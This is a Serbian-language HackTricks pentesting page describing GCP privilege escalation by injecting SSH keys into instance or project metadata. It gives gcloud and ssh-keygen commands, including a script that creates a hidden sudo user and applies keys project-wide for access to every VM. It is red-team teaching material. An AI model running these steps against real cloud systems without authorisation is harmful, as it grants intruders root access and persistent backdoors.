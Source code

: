 # GCP - Dodavanje prilagođenih SSH metapodataka

## GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

### Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih bezbednosnih rizika ako napadač dobije potrebne dozvole**.

#### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Kritična komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance za **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, mogao bi da natera daemon da pronađe novi javni ključ, koji će biti obrađen i **integrisan u lokalni sistem**. Ključ će biti dodat u `~/.ssh/authorized_keys` datoteku **postojećeg korisnika ili potencijalno kreirati novog korisnika sa `sudo` privilegijama**, u zavisnosti od formata ključa. I napadač će moći da kompromituje host.

#### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Istražite postojeće SSH ključeve na instanci:**
*   Izvršite komandu da opišete instancu i njene metapodatke kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu biće pod `metadata`, posebno ključ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Obratite pažnju na format SSH ključeva: korisničko ime prethodi ključevi, odvojeni dvotačkom.
2. **Pripremite tekstualnu datoteku za SSH ključ metapodatke:**
* Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku pod nazivom `meta.txt`. Ovo je neophodno za očuvanje postojećih ključeva dok dodajete nove.
3. **Generišite novi SSH ključ za ciljanog korisnika (`alice` u ovom primeru):**
*   Koristite komandu `ssh-keygen` da generišete novi SSH ključ, osiguravajući da se polje komentara (`-C`) poklapa sa ciljnim korisničkim imenom.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodajte novi javni ključ u `meta.txt`, imitujući format koji se nalazi u metapodacima instance.
4. **Ažurirajte SSH ključ metapodatke instance:**
*   Primijenite ažurirane SSH ključ metapodatke na instancu koristeći komandu `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Pristupite instanci koristeći novi SSH ključ:**
*   Povežite se na instancu putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljanog korisnika (`alice` u ovom primeru).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Kreirajte novog privilegovanog korisnika i dodajte SSH ključ**

Ako nijedan zanimljiv korisnik nije pronađen, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti domet SSH pristupa na više Virtuelnih Mašina (VM) u cloud okruženju primenom **SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala SSH ključeve na nivou projekta. Evo sažetog vodiča:

1. **Primena SSH ključeva na nivou projekta:**
*   Koristite komandu `gcloud compute project-info add-metadata` da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da SSH ključevi budu prepoznati na svim VM-ovima u projektu, osim ako VM nema omogućenu opciju "Blokiraj SSH ključeve na nivou projekta".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH u instance koristeći ključeve na nivou projekta:**
* Sa SSH ključevima na nivou projekta, možete SSH u bilo koju instancu unutar projekta. Instance koje ne blokiraju ključeve na nivou projekta će prihvatiti SSH ključ, omogućavajući pristup.
* Direktna metoda za SSH u instancu je korišćenje komande `gcloud compute ssh [INSTANCE]`. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta da pokuša pristup.

## Reference

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
